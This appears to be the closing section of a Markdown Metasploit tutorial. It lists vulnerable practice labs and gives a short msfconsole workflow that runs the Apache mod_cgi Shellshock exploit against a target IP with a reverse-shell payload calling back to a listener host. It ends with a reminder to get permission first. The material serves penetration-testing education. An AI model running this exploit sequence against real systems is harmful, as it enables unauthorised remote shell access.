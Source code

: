 
## 🧪 14. Practice Targets

- **Metasploitable 2/3** (Intentionally vulnerable VMs)
    
- **DVWA** (Damn Vulnerable Web App)
    
- **Hack The Box** / **TryHackMe Labs**
    

---

## 🧩 15. Real-World Workflow Example

```bash
msfconsole
search apache
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.168.1.6
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.10
run
```

---

## ✅ Final Tips

- Use `msfupdate` to keep Metasploit modules updated
    
- Run `db_nmap` inside Metasploit to integrate scan results
    
- Always get permission before exploiting any system
    

---


